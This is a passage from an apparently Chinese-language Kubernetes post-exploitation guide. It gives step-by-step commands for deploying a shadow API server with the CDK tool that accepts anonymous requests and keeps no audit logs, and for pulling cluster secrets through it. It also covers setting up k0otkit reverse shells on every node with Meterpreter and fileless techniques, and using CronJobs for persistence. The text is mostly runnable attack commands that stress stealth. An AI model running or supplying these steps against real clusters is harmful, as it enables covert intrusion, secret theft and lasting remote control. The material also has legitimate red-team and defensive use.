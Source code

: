 创建 demo.yaml

```plain
kubectl create -f demo.yaml
```

#### Shadow API Server

这里可以使用工具[cdk](https://github.com/cdk-team/CDK/)，它可以在 K8s 集群中部署一个 shadow apiserver，该 apiserver 具有和集群中现存的 apiserver 一致的功能，同时开启了全部 K8s 管理权限，接受匿名请求且不保存审计日志。便于攻击者无痕迹的管理整个集群以及下发后续渗透行动  
使用命令：

```plain
./cdk run k8s-shadow-apiserver default
```

访问与利用

```plain
./cdk kcurl anonymous get https://IP:6443/api/v1/secrets
```

#### k0otkit

k0otkit 是一种通用的后渗透技术，可用于对 Kubernetes 集群的渗透。使用 k0otkit，您可以以快速、隐蔽和连续的方式（反向 shell）操作目标 Kubernetes 集群中的所有节点。

K0otkit 使用到的技术：

-   DaemonSet 和 Secret 资源（快速持续反弹、资源分离）
-   kube-proxy 镜像（就地取材）
-   动态容器注入（高隐蔽性）
-   Meterpreter（流量加密）
-   无文件攻击（高隐蔽性）

下载并授权

```plain
git clone https://github.com/brant-ruan/k0otkit
cd k0otkit/
chmod +x ./*.sh
```

生成 k0otkit.sh

```plain
./pre_exp.sh
```

启动监听脚本

```bash
./handle_multi_reverse_shell.sh
```

k0otkit.sh 的内容复制到 master 执行，在 shell 中执行

#### cronjob

Job: 负责处理任务，即仅执行一次的任务，它保证批处理任务的一个或多个 Pod 成功结束。  
CronJob: 则就是在 Job 上加上了时间调度，用于执行周期性的动作，例如备份、报告生成等，攻击者可以利用此功能持久化。
